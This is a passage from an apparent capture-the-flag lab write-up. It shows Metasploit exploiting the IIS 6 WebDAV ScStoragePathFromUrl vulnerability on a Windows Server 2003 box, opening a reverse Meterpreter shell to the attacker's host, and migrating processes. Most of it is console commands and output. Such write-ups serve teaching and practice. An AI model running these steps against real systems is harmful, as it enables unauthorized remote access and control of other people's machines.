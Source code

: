 ```
Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86


msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.14
RHOSTS => 10.10.10.14
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LPORT 7777
LPORT => 7777
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LHOST 10.10.16.3
LHOST => 10.10.16.3
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.16.3:7777 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.16.3:7777 -> 10.10.10.14:1030 ) at 2023-02-03 08:30:25 -0500
```

On running the exploit, I got back a reverse shell.

```
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 3652 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

now that we got back a shell, but when we run `getuid` command, we get an error. This is because we’re running in an unstable process. To fix that, let’s see which processes are running on the box and migrate to one that is running with the same privileges that the meterpreter session is running with.

```
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

So, I migrated to `PID 2964`

```
meterpreter > migrate 2964
[*] Migrating from 3712 to 2964...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > 
```
